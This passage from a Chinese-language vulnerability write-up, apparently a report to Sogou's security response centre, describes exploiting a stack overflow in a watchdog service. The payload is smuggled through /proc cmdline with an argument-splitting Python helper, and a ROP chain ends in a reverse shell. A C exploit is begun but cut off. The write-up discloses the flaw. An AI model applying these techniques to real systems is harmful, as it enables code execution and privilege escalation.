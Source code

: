 接着我们发现，我们需要让我们的缓冲区填充\+payload放入cmdline文件，这样fscanf才能读到他。那么又有一个问题了，参数之间只能有一个'\\x00'，但是我们需要很多个连续的0，怎么办？这个时候我琢磨到一个技巧，就是给一个空参数，就会产生连续的0。比方说./xxx "" aaa，在./xxx和aaa之间，就有两个\\0。

具体实现代码如下：

```python
def payload_to_args(payload):
	length = len(payload)
	ret = []
	ret.append("")
	idx = 0
	for i in xrange(0, length):
		if payload[i] != '\x00':
			ret[idx] += payload[i]
		else:
			ret.append("")
			idx += 1
	return ret
```

这个函数就是把payload转换成array，使得如果用这个array作为参数创建进程的话，能使得cmdline文件中的内容是原来的payload。

这样的话，payload就构造完成了，到时候就会把填充\+ROP fscanf到栈里面并且溢出，然后走我们的ROP，最后执行反弹shell的命令（其实打开一个正向shell也可以）

## 0x03 最大化利用漏洞

很不幸的是，这个watchdog服务不是root运行的，所以并没有提权到root的功能（如果这个洞没用就尴尬了）

然后我又想，如果能把这个洞作为网马。比方说，JavaScript能调用本地的某个服务，任意一个都行，并且能控制他的参数（比方说flash什么的？然而看了看flash好像并不能控制他的参数），就可以作为网马来使了。可惜并没有。。。

所以总不可能一个任意代码执行的栈溢出到了搜狗的src只能爆个低危吧！这个时候看看能不能从guest提权到本地用户？

改成C语言

```c
#include <unistd.h>
#include <memory.h>
#include <stdio.h>
#include <stdlib.h>
void exploit()
{
	printf("start exploiting\n");
	getchar();
```